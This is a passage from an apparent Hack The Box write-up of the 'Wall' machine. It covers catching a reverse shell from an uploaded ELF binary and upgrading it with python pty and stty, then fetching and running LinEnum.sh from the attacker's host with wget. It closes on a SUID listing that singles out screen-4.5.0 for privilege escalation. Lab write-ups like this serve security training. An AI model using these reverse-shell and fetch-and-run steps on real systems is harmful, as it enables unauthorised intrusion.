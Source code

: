 and an OK on the plugin test.

![wget.png](/assets/htb_stuff/wall/wget.png)

I run the following commands individually to turn my binary open and executable to the world, then trigger a shell back to my system:

``` bash
chmod 777 shell443.elf
./shell443.elf
``` 

And I have an RCE shell:

```
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.157] 40136
```

## Priv Escalation

Weirdly I was unable to get the user flag from this. First thing first I run my playbook to get as close to a full shell as I can:

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Background with Ctrl ^Z to get the bellow output
# [1]+  Stopped                 sudo nc -nvlp 443
# command below stops typing being visible
stty raw -echo
# then we restart our process
fg
```

Now we can use our existing terminal's special keys and suck on the reverse shell, a must if we need to use Vim.

I follow the standard HTB enumeration playbook by fetching and running LinEum

``` bash
wget http://10.10.14.37/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh > enum152hf9ufioje3bbrvdsc93masp.txt
```

This takes a couple of moments to run but creates a nice file for me to be able to view in the browser here: `http://10.10.10.157/centreon/enum152hf9ufioje3bbrvdsc93masp.txt`

Initially everything looks pretty standard until I get to the SUID files:

```
[00;31m[-] SUID files:[00m
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
```
